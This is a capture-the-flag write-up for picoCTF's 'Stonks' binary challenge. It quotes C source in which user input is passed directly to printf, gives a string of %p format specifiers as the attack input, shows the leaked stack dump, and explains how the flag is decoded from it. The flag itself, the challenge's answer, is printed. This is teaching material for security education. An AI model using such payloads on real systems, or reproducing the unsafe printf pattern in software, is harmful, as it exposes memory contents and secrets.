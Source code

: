 # PicoCTF "Stonks"
Stonks is one of picoCTF's easiest binary exploitation challenges, and thus is only worth 20 points.

You are first, given the source code, which introduces a format string vulnerability after reading the flag file's contents onto the stack.
Below are the important parts of the source code, of which the buy_stonks function is our vulnerable function as it will have the flag within its stack frame
whilst also introducing a format string vulnerability.

```c
#include <stdlib.h>

//[...SNIP...]

int buy_stonks(Portfolio *p) {
	// [...SNIP...]
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	// [...SNIP...]

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
  
  // [...SNIP...]

	return 0;
}

// [...SNIP...]

int main(int argc, char *argv[])
{
  // [...SNIP...]
	
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

  // [...SNIP...]
}
```

By simply writing a lot of `%p` to the `user_buf`, we can read values off of the stack, in this case, the flag!
The input I used was as follows:
```
input was: %p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```
Which gives the following output, of which the flag can be located by searching for the bytes `"465443"`, which is `"CTF"` in little endian:
```
0x93ce390|0x804b000|0x80489c3|0xf7f09d80|0xffffffff|0x1|0x93cc160|0xf7f17110|0xf7f09dc7|(nil)|0x93cd180|0x2|0x93ce370|0x93ce390|0x6f636970|0x7b465443|0x306c5f49|0x345f7435|0x6d5f6c6c|0x306d5f79|0x5f79336e|0x32666331|0x30613130|0xfff0007d|0xf7f44af8|0xf7f17440|0xb5612500|0x1|(nil)|0xf7da6be9|0xf7f180c0|0xf7f095c0|0xf7f09000|0xfff0fed8|0xf7d9758d|0xf7f095c0|0x8048eca|0xfff0fee4|(nil)|0xf7f2bf09|0x804b000|0xf7f09000|0xf7f09e20|0xfff0ff18|0xf7f31d50|0xf7f0a890|0xb5612500|0xf7f09000|0x804b000|0xfff0ff18|0x8048c86|0x93cc160|0xfff0ff04|0xfff0ff18|0x8048be9|0xf7f093fc|(nil)|0xfff0ffcc|0xfff0ffc4|0x1|0x1|0x93cc160|0xb5612500|0xfff0ff30|(nil)|(nil)|0xf7d4cf21|0xf7f09000|
```
From here, simply grab all of the contiguous bytes until you hit a null byte, and reverse the endian, giving the flag: `picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}`


